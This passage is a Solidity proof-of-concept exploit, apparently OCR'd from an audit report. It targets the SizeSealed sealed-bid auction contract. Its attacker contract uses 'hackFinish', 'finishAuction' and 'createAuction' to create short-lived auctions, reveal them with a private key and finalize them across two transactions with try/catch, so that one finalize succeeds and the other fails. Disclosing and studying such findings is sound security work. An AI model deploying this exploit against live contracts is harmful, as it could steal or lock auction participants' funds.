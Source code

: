 ```solidity=
                bytes32(baseAmount << 128)
            );
            require(bidId == 0);
        }

        return block.timestamp;
    }

    // external to be used in try+catch statement
    function finishAuction(uint256 auctionId) external {
        require(msg.sender == address(this));

        sizeSealed.reveal(auctionId, privateKey, "");
        require(token1.balanceOf(address(this)) == 0);

        uint256[] memory bidIndices = new uint256[](1);
        bidIndices[0] = 0;
        sizeSealed.finalize(auctionId, bidIndices, type(uint128).max, type(uint128).max);
    }

    // Second transaction
    // block.timestamp should be greater or equal to (block.timestamp of the first transaction) + 1
    function hackFinish() external returns (uint256) {
        require(hackStartTimestamp != 0 && block.timestamp >= hackStartTimestamp + 1);

        try this.finishAuction(firstAuctionId) {
            // expected
        } catch {
            revert();
        }

        try this.finishAuction(secondAuctionId) {
            revert();
        } catch {
            // expected
        }

        return block.timestamp;
    }

    function createAuction(ERC20 baseToken, ERC20 quoteToken, uint128 totalBaseAmount) internal returns (uint256) {
        ISizeSealed.AuctionParameters memory auctionParameters;
        auctionParameters.baseToken = address(baseToken);
        auctionParameters.quoteToken = address(quoteToken);
        auctionParameters.reserveQuotePerBase = 0;
        auctionParameters.totalBaseAmount = totalBaseAmount;
        auctionParameters.minimumBidQuote = 0;
        auctionParameters.pubKey = ECCMath.publicKey(privateKey);
        
        ISizeSealed.Timings memory timings;
        timings.startTimestamp = uint32(block.timestamp);
        timings.endTimestamp = uint32(block.timestamp) + 1;
        timings.vestingStartTimestamp = uint32(block.timestamp) + 2;
        timings.vestingEndTimestamp = uint32(block.timestamp) + 3;
        timings.cliffPercent = 1e18; 
        
        return sizeSealed.createAuction(auctionParameters, timings, "");
    }
}
```
